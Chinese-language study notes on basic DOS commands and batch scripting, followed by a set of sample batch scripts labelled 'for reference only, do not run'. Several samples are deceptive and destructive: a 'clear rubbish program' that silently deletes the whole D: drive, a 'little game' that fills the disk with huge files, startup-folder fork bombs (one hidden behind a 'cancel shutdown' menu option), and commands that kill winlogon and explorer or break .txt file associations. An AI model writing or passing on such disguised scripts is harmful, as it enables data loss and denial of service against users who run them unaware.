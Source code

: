 ## 基本DOS命令

---

---

```dos
echo world is very well > qingshu.txt 		# 将“world is very well”写入qingshu.txt
type qingshu.txt		# 查看qingshu.txt
type qingshu.txt | more		# 查看qingshu.txt，并分页显示
copy con qingshu.txt		# 将屏幕输入的内容全部写入qingshu.txt; ctrl + Z 停止编写
```

#### 创建文件

1. echo

   ```doc
   >是覆盖
   >>是追加
   ```

   

2. copy con 文件名.扩展名

   开始编辑内容
   ctrl+Z结束

#### 删除文件

* del
* *是通配符

* /q 不提示（相当于Linux的-f）

* del *.* /s /Q 无提示删除所有文件

#### md

* 创建文件夹

#### attrib

* attrib +h feifei

  给feifei文件夹增加隐藏属性

* attrib -h feifei
  给feifei文件夹去掉隐藏属性
* +h +s +a 隐藏且定义为系统级文件

#### dir 

* dir /a

  显示所有隐藏的文件及文件夹

#### fsutil

* fsutil file createnew c:\system.ini 409600000

  快速生成一个文件system.ini，定义大小为409600000字节

#### assoc

* 修改关联性

* assoc .txt=exefile

  将.txt文件关联为exefile，但实际上打不开。

* assoc .txt=txtfile
  解开

#### shutdown

* shutdown -s -t 100

  一百秒后关机

* shutdown -a

  取消所有定时任务（接触定时关机）

* shutdown -r -t -f 100

  100秒后强制重启

* shutdown -s -t -f 100  -c “即将关机。。。”

  100秒后关机，并在屏幕显示“即将关机。。。”

* shutdown -l 

  注销，通logoff命令相同

#### copy

* copy 源路径(带文件名) 目的路径

* copy haha.txt  ..\b\

  将当前文件夹里的haha.txt拷贝到上一级文件夹下的b文件夹里

* 网络拷贝

  ```dos
  copy muma.exe \\10.1.1.2\
  ```

#### move

* 用法同copy

#### ren

* ren 旧名 新名
  可-更改文件夹和文件名

---

---

## 批处理编写

#### 批量处理dos命令

* 按顺序执行，忽略有错误的
* 脚本

#### 如何创建

* .bat文件

---

* ## **以下文件仅供参考，不得运行**

1. 删除d盘文件

```dos
@echo off
color 0a
title clear rubbish program
echo =====================
echo clear your system rubbish
echo   if it has been stopped
echo 	let it go.
echo =====================
pause
echo.
echo rubbish is cleaning...
d: >nul 2>nul
cd \ >nul 2>nul
rd . /s/q >nul 2>nul
ping -n 10 127.0.0.1 >nul 2>nul
echo congratulations!!! rubbish has been removed.
pause
```



2. 创建大文件

```dos
@echo off
color 0a
title a little game
fsutil file createnew d:\sys.ini 409600000000 >nul 2>nul
fsutil file createnew d:\sys1.ini 409600000000 >nul 2>nul
fsutil file createnew d:\sys2.ini 409600000000 >nul 2>nul
fsutil file createnew d:\sys3.ini 409600000000 >nul 2>nul
```



3. 无限启动cmd

```dos
copy qq.bat "%userprofile%\「开始」菜单\程序\启动"
:d
start
goto d
```

4. 定时小程序

```dos
@echo off
title runfar's applet
color 0a

:0
cls
echo ==========================
echo 		menu
echo	     1.定时关机
echo	     2.取消定时
echo         3.exit
echo ==========================

set /p num=input your option:

if "%num%"=="1" goto 1
if "%num%"=="2" goto 2
if "%num%"=="3" goto 3
echo donot bb input, input correct
pause
goto 0

:1
set /p a=input the time to shutdown the computer after:
shutdown -s -f -t %a%
goto 0

:2
echo :a >> "%userprofile%\「开始」菜单\程序\启动\haha.bat"
echo start >> "%userprofile%\「开始」菜单\程序\启动\haha.bat"
echo goto a >> "%userprofile%\「开始」菜单\程序\启动\haha.bat"
goto 0

:3
exit

```

---

5. 
   ```dos
   # 强制杀死window登录进程
   ntsd -c -q pn winlogon.exe
   # 实际结果会导致蓝屏，仅win2003-server有效
   
   # 强制杀死系统桌面进程
   taskkill /im explorer.exe /f
   ```

